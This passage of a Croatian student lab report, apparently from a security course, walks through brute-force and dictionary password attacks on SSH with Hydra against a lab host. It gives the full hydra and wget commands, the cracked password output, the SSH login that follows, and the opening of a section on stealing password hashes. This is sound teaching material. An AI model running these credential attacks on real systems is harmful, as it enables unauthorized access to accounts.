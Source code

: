 ```bash
[STATUS] 16.00 tries/min, 16 tries in 00:01h, 321254112 to do in 334639:43h, 1 active[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaq" - 17 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaar" - 18 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaas" - 19 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaat" - 20 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaau" - 21 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaav" - 22 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaaw" - 23 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "aaax" - 24 of 321254128 [child 0] (0/0)
```

- 16.00 tries/min → 330k sati → 38 godina

Trebamo novu metodu, bottleneck je na serveru jer on provjerava lozinku, hashiranjem, može se istovremeno slat vise zahtjeva ali i dalje ima ograničenja.

Rješenje ovog problema je ukloniti šifre koje nemaju smisla, pa isprobajemo samo određene lozinke iz keyspacea, tj. koristimo dictionary kako bi ubrzali napad.

### 3.2 Dictionary attack with Hydra

Započetak preuzimamo dictionary jednostavnom naredbom `wget`.

wget -r -nH -np --reject "index.html*" [http://a507-server.local:8080/dictionary/g1/](http://a507-server.local:8080/dictionary/g1/)

No, da bi skinuli dictionary moramo nekako pročitati nejasni error iz console i saznati da nemamo ovlasti u trenutnom direktoriju, pa pronaći i prebaciti se u direktorij kojem imamo pravo skinuti datoteke.

Pokretanje Hydre sa dictionaryem.

`hydra -l durdov_bozo -P dictionary/g1/dictionary_online.txt 10.0.15.1 -V -t 4 ssh`

```bash
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "kajgjp" - 212 of 872 [child 3] (0/0)
[ATTEMPT] target 10.0.15.1 - login "durdov_bozo" - pass "fonwhe" - 213 of 872 [child 1] (0/0)
[22][ssh] host: 10.0.15.1   login: durdov_bozo   password: fonwhe
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-12-20 16:47:47
student@DESKTOP-7Q0BASR:/mnt/c$ ssh durdov_bozo@10.0.15.1
```

Hydra prekida rad kada otkrije lozinku, `fonwhe`, te je prikladno ispiše.

## 4. Grand theft of password hashes

Nakon što smo otkrili lozinku možemo ponoviti proceduru spajanja te se ulogirati.

`ssh [durdov_bozo@10.0.15.1](mailto:durdov_bozo@10.0.15.1)`

Zatim možemo primjetiti promjenu u consoli, kao da se nalazimo na drugom računalu, a user je onaj iz ssh naredbe. 

Te sumnje potvrđujemo naredbom `whoami`

```bash
durdov_bozo@host_durdov_bozo:~$ whoami
durdov_bozo
```
